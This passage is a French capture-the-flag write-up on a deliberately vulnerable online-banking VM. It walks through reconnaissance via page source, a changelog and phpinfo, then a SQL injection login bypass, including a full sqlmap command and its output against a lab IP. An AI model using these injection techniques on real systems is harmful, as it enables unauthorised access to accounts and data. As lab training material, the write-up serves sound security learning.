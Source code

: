 Regarder le code HTML de la page d'accueil est aussi une habitude que l'on prend vite sur les CTFs. Ici ça semble intéressant :  

```html
<html lang="en">
<!-- Harbor Bank Online v2 - See changelog.txt for version details.-->
<head>
```

Le changelog en question mentionne (sans les détails) une vulnérabilité qui a été corrigée mais n'est pas poussée en prod. Ils indiquent aussi que cela allait être fait *"doucement"* (?).  

Le *phpinfo* est comme d'habitude une mire d'or en tant que prise d'informations. Ainsi on devine rapidement au nom d'hôte que le serveur tourne dans un Docker et on découvre que l'utilisateur courant qui est *www-data* dispose d'un dossier personnel dans */home* ce qui est pour le coup moins courant.  

Si jamais un serveur SSH est accessible on pourra certainement jouer avec les clés SSH ce qui n'est habituellement pas possible car le home correspond souvent à la racine web dont *root* est le propriétaire.  

Pour le reste le site est justement servi par */var/www/html* ce qui est standard.  

Login bypass
------------

En testant la page de login pour une faille SQL (on peut juste placer des guillemets et apostrophes dans les champs) j'obtiens une erreur évocatrice :  

```plain

Warning: mysqli_num_rows() expects parameter 1 to be mysqli_result, boolean given in /var/www/html/login.php on line 16
```

Bizarrement la vulnérabilité ne semble pas toujours présente, d'ailleurs SQLmap ne parvient pas à dumper quoi que ce soit mais valide tout de même ce cas de bypass malgré lui puisqu'il accède à la page normalement protégée :  

```plain
$ python sqlmap.py -u http://192.168.56.11/ --data "user=admin&password=admin&s=Login" --risk 3 --level 5 --dbms mysql

--- snip ---
[10:24:53] [INFO] testing if POST parameter 'user' is dynamic
[10:24:53] [WARNING] POST parameter 'user' does not appear to be dynamic
[10:24:53] [INFO] heuristic (basic) test shows that POST parameter 'user' might be injectable (possible DBMS: 'MySQL')
[10:24:53] [INFO] testing for SQL injection on POST parameter 'user'
[10:24:53] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
got a 302 redirect to 'http://192.168.56.11:80/OnlineBanking/index.php?p=welcome'. Do you want to follow? [Y/n]
--- snip ---
```

L'appli web permet de transférer des sommes d'un compte de notre choix. On a ainsi la liste d'utilisateurs suivante :  
